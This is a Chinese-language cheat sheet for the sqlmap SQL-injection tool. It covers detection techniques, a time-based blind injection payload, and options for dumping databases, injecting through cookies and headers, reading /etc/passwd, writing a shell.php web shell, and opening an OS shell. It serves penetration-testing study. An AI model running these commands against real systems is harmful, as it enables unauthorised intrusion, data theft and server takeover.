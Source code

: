 ### SQLMAP自动注入

> #### 五种漏洞检测技术  
> 
> * 基于布尔的盲注检测
> * 基于时间的盲注检测
> 	* ' and (select * from (select (sleep(20)))a) -- +
> * 基于错误的检测
> * 基于UNIONl联合查询的检测
> 	* 适用于通过for循环直接输出联合查询结果,否则只显示第一项结果
> * 基于堆叠查询的检测
> 	* ;堆叠多个查询语句
> 	* 适用于非select的数据修改,删除的操作

#### 参数
> * `-u url`, 指定url参数,其中必须要包含可注入的parameter
> * `-p param`, 可以指定只对固定的param进行SQL注入的检测
> * `-f`, 指纹检测, 可以检测出mysql版本等
> * `-D database`, 配合`--tables`检测当前database的表
> * `--dump -D database -T table`, 检测database数据库中的table表的所有数据
> * `--users`, 获取数据库用户
> * `--banner`, 提供数据库的banner信息,包括版本等
> * `--dbs`, 获取所有的数据库
> * `--schema`, 获得所有的元数据(各个数据库的表, 表的字段等)
> * `--tables`, 获得所有的表
> * `--columns`, 获得所有的列
> * `--tamper=TAMPER`, 输入一个脚本文件
> * `-a`, 获得所有能查到的数据(-all)
> * `-d 'mysql://user:password@127.0.0.0/database'`, 直连数据库
> * `-m file.txt`, 可以读取file中的多个url
> * `-g " inurl:\".php?id=1\" "`, 用google搜索结果
> 
> #### POST方法
> * 使用http请求文件(burpsuite)  =>  `sqlmap -r request.txt`
> * 使用burpsuite log文件  =>  `sqlmap -l log.txt`

> #### HTTPS
> * `sqlmap -u "https://1.1.1.1/a.php?a=1:8843" --force-ssl`

> #### 数据段 `--data`
> * get / post 都适用
> `sqlmap.py -u "http://172.16.203.135/mutillidae/index.php?page=home.php" --data="username=1000&password=1&login-php-submit-button=Login" --dbs`

> #### 变量分隔符 `--param-del`
> * `sqlmap -u url --data "q=foo:id=1" --param-del=":" -f `

> #### Cookie头 `--cookie`
> * web应用需要基于cookie的身份验证
> * 检查cookie头中的注入需要level >= 2 (--level 2 ;一共1-5级)
> *  Set-Cookie / --drop-set-cookie / --cookie-del
> * `sqlmap -u url --cookie="a=1;b=2" -f`

> #### User-Agent
> * --user-agent => 默认为: `sqlmap/1.0-dev-xxxxxxxx [http://sqlmap.org]`
> * 可以使用 ` --random-agent `随机从 `sqlmap/txt/user-agents.txt` 字典中选取user-agent
> * sqlmap检查user-agent中的注入点:Level >= 3
> * APP/WAF/IPS/IDS 过滤异常 user-agent 时报错 `[ERROR] the target URL responsed with an unknown HTTP status code, try to force the User-Agent Header with option --user-agent or --random-agent`

> #### Host头
> * `--host` , level = 5 才会被检测注入

> #### Referer头
> * `--referer`, level >= 3 才会被检测注入

> #### 额外的Header
> * `--headers`, 每个头单独一行(名称区分大小写)
> * `sqlmap -u url --headers="Host:www.a.com\nUser-Agent:aaaaa"`

> #### --method
> * `--method=GET/POST`

> #### 读\写文件
> * `--file-read="/etc/passwd"`
> * `--file-write="shell.php" --file-dest="/tmp/shell.php"`

> #### OS
> * `--os-cmd`
> * `--os-shell`
> * `--sql-shell`




